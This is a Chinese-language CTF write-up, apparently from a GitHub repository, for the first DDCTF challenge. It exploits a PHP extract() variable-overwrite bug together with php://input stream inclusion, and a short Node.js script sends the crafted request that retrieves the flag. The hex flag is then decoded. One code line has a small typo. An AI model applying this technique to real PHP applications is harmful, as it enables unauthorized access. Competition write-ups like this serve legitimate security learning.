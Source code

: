 Review 后发现这里涉及两个 ~~CTF~~ 常见的 PHP 的安全问题：
1. [extract() 变量覆盖](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#extract)
2. [远程文件包含 - PHP 流 input](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#_3)

于是构造请求参数 `k=php://input`，使 `$content` 值等于 Request Body 的内容；并把相同的值（如 `yelo`）传入参数 `uid` 和 Request Body；使得最终 `$uid == $content`：

```javascript
const got = require('got')

;(async () => {
  const url = `http://117.51.150.246/f1ag!ddctf.php?uid=yelo&k=php://input`
  const { body } = await got.post(url, {
    body: 'yelo',
  })
  console.log(body)
  // <- "DDCTF{436f6e67726174756c6174696f6e73}"
})()
```

获得 flag `DDCTF{436f6e67726174756c6174696f6e73}`，拿下第一关 :v:。

## Bonus
等一等，flag 的值看起来是一段 Hex，转字符串试试：

```javascript
Buffer.from(:436f6e67726174756c6174696f6e73', 'hex').toString()
// <- "Congratulations"
```

![](https://media.giphy.com/media/1g37uzZ6mSu8GDOczN/giphy.gif)  

## 涉及资料
- 源代码
  - [扫描器脚本](./scan.js)
  - [完整通关脚本](./index.js)
- 知识点
  - [data URI scheme - Syntax](https://en.wikipedia.org/wiki/Data_URI_scheme#Syntax)
  - [Node.js - Buffer](https://nodejs.org/dist/latest-v11.x/docs/api/buffer.html)
  - [PHP extract() 变量覆盖](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#extract)
  - [PHP 远程文件包含 - PHP 流 input](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#_3)

## EOF
[下一题](../2/readme.md)  
[回到目录](../../readme.md)
